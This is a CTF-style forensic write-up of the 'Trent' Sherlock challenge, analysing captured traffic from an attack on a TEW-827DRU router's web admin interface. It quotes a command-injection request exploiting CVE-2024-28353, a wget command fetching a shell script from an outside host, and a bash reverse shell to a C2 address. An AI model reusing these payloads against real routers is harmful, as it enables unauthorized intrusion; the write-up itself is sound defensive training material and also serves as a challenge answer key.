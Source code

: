 Machine:Trent | Creator:a1l4m

Sherlock Scenario
The SOC team has identified suspicious lateral movement targeting router firmware from within the network. Anomalous traffic patterns and command execution have been detected on the router, indicating that an attacker already inside the network has gained unauthorized access and is attempting further exploitation. You will be given network traffic logs from one of the impacted machines. Your task is to conduct a thorough investigation to unravel the attacker's Techniques, Tactics, and Procedures (TTPs).

Questions:
From what IP address did the attacker initially launched their activity?
    This was clear from the brute force and packets that request the webpage from the router.
    [192.168.10.2]


What is the model name of the compromised router?
    Noticable from the first TCP stream (0)
    [TEW-827DRU]


How many failed login attempts did the attacker try before successfully logging into the router?
    This can be visualised with http.request.method == "POST" && ip.src == 192.168.10.2. The first two TCP streams return the login page. The 3rd attempt loads the router configs.
    [2]


At what UTC time did the attacker successfully log into the routers web admin interface?
    This is the packet in response to our third successful packet. (HTTP/1.1 200 OK)
    [2024-05-01 15:53:27]

Task 5

How many characters long was the password used to log in successfully?
    Payload from the 3rd successful packet:
    HTML Form URL Encoded: application/x-www-form-urlencoded
        Form item: "html_response_page" = "/login_pic.asp"
        Form item: "login_name" = "YWRtaW4="
        Form item: "log_pass" = ""
        Form item: "action" = "do_graph_auth"
        Form item: "login_n" = "admin"
        Form item: "tmp_log_pass" = ""
        Form item: "graph_code" = ""
        Form item: "session_id" = "4152"
    [0]

Task 6

What is the current firmware version installed on the compromised router?
    <!-- ----------------- System Info ----------------- -->
    											<tr>
    												<td class="CL"><script>show_words('sd_FWV');</script></td>
    												<td class="CR"><span id="fwVer">2.10 , 11, Jan, 2022</s
    [2.10]


Which HTTP parameter was manipulated by the attacker to get remote code execution on the system?
This is the next POST parameter after the attacker has been successful, in which we filter the query again with http.request.method == "POST" && ip.src == 192.168.10.2
ccp_act=set&html_response_return_page=smbserver.asp&action=samba36&usbapps.config.smb_admin_pass=admin&usbapps.config.smb_admin_name=admin`whoami`&usbapps.config.smb_enable=1&samba.@samba[0].name=USBSHARE&samba.@samba[0].workgroup=WORKGROUP&samba.@samba[0].description=&reboot_type=reboot&reboot_type=application&1714578957726=1714578957726
We can see the injection within the header.
[usbapps.config.smb_admin_name]


What is the CVE number associated with the vulnerability that was exploited in this attack?
    This we can lookup online since we can visualise the injection parameter and the device.
    [CVE-2024-28353]


What was the first command the attacker executed by exploiting the vulnerability?
    We can see this above with the inserted command:
    [whoami]


What command did the actor use to initiate the download of a reverse shell to the router from a host outside the network?
    Using another tool known as 'NetworkMiner', we are able to find the commands through the parameters tab extracting the http headers and commands.
    We also know that this is injected through the usbapps.config.smb_admin_name parameter value, we can filter specifically for it.
    [wget http://35.159.25.253:8000/a1l4m.sh]


Multiple attempts to download the reverse shell from an external IP failed. When the actor made a typo in the injection, what response message did the server return?
    Using a combination of both the NetworkMiner and Wireshark, we are able to find the exact command packet with Frame Number in NetworkMiner, find the frame in wireshark using frame.number == ""
    From there, you can follow the tcp stream and find the response from the server which was:
    [Access to this resource is forbidden]


What was the IP address and port number of the command and control (C2) server when the actor's reverse shell eventually did connect? (IP:Port)
    This can be visualised in the response packet to the successful transfer where the router performs a GET request to gain access to the packet via the injected command.
    In the response we get 'bash -i > /dev /tcp/35.159.25.2 53/41143 0<&1 2> &1'
    [35.159.25.2:41143]
